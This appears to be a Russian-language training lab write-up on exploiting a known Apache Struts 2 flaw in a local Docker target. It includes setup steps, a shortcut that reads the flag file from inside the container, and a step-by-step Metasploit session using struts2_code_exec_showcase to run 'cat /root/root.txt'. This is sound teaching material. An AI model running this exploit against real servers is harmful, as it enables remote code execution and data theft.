 ### Практика «Эксплуатация уязвимостей 1-го дня сетевых сервисов»

Подготовка
Требования к лабораторному стенду:

На вашей операционной системе должно быть установлено программное обеспечение docker и docker-compose.

Поддерживаемые ОС: Linux,Windows, MacOS (x64/arm).

Для подготовки стенда:

Необходимо скачать архив по
ссылке: [service-exploit.zip](https://cybered-my.sharepoint.com/:u:/g/personal/v_karmanov_cyber-ed_ru/EcKDQRzvnvlCixDjZN6-ilkB5ye1nymeVfsvCOfAVlIV-w?e=iZcFld) (
Зеркало: [service-exploit.zip Яндекс.Диск](https://disk.yandex.ru/d/m88Ujs4R0LSCCg) )

Распаковать данный архив и перейти в появившуюся директорию service-exploit-prod в терминальной оболочке вашей ОС.
Выполнить команду:

```commandline
docker-compose up -d
```

для обхода решения задания просто подключитесь к запущенному докер образу
```commandline
# просмотрим список созданных образов
sudo docker ps

# подключимся к нашему 
sudo docker exec it service-exploit-prod-target-1 bash

# после подключения просматриваем нужный файл
cat /root/root.txt
```

<img src="6.3.1.png" alt="6.3.1" >

решение по учебнику:
```commandline
# Запуск фреймворка
msfconsole

# после запуска метаэксплоита внутри проводим поиск всех возможных эксплойтов с содержимым строки “struts showcase”
search struts showcase 

# он выведет одну найденную уязвимость exploit/multi/http/struts2_code_exec_showcase  выберем его для работы последующей настройки
use exploit/multi/http/struts2_code_exec_showcase

# Изучение информации об эксплойте
info

# Демонстрация опций для настройки эксплойта
options

# Приступим к настройке эксплойта, нам нужно что бы он подключился к нашему сайту, укажим его IP и порт
# Настройка узла для применения эксплойта, он у нас развернут локально
set RHOSTS localhost

# Настройка порта для применения эксплойта
set RPORT 1337

# Настройка места нахождения уязвимого плагина на сайте
set TARGETURI /integration/saveGangster.action

# Настройка “нагрузки” исполняемой после применения эксплойта
set PAYLOAD cmd/unix/generic

# Настройка опций нагрузки (Указание команды, которую необходимо выполнить)
set CMD 'cat /root/root.txt'

# Использование “чекера” для проверки корректности настроенного эксплойта
check

# Эксплуатация уязвимости
exploit

# или
run

p.s. если вы все сделали правильно, но заветная строчка не появилась перезапустите образ докер, иногда зависает
```